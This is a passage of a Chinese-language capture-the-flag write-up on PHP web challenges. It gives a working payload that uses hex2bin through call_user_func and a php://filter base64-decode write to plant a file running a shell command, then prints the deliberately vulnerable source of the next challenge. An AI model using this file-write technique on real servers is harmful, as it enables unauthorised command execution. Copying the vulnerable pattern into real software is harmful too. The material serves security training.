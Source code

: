 payload

```
GET
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
POST
v1=hex2bin
```

大致思路就是用16进制构造一个base64加密后的二进制字符串

```
$str=PD89YGNhdCAqYDs
base64_decode($str)=<?=`cat *`;
```

然后在`call_user_func`中用hex2bin解密一下

再在`file_put_contents`中用php伪协议的base64解码写入到1.php中

在访问1.php即可

**说明：<?=是php的短标签，是echo()的快捷用法**

+++

### <font color='orange'>web103(不太懂)</font>

+++

```php
<?php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```

过滤了php，不管连着还是没连着，都不能按顺序出现php
